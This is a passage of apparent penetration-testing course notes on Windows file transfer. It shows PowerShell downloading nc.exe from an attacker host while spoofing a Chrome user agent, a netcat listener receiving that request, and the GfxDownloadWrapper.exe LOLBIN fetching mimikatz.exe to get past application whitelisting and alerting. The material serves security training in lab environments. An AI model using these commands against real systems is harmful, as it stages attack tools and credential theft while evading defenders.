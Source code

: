 ```powershell
Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```
{% endcode %}

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

<mark style="color:orange;">**Request with Chrome User Agent**</mark>

{% code fullWidth="true" %}
```powershell
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```
{% endcode %}

```bash
mrroboteLiot@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```

***

### <mark style="color:red;">LOLBAS / GTFOBins</mark>

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

<mark style="color:green;">**Transferring File with GfxDownloadWrapper.exe**</mark>

{% code fullWidth="true" %}
```powershell
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```
{% endcode %}

Such a binary might be permitted to run by application whitelisting and be excluded from alerting. Other, more commonly available binaries are also available, and it is worth checking the [LOLBAS](https://lolbas-project.github.io/) project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the [GTFOBins](https://gtfobins.github.io/) project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.
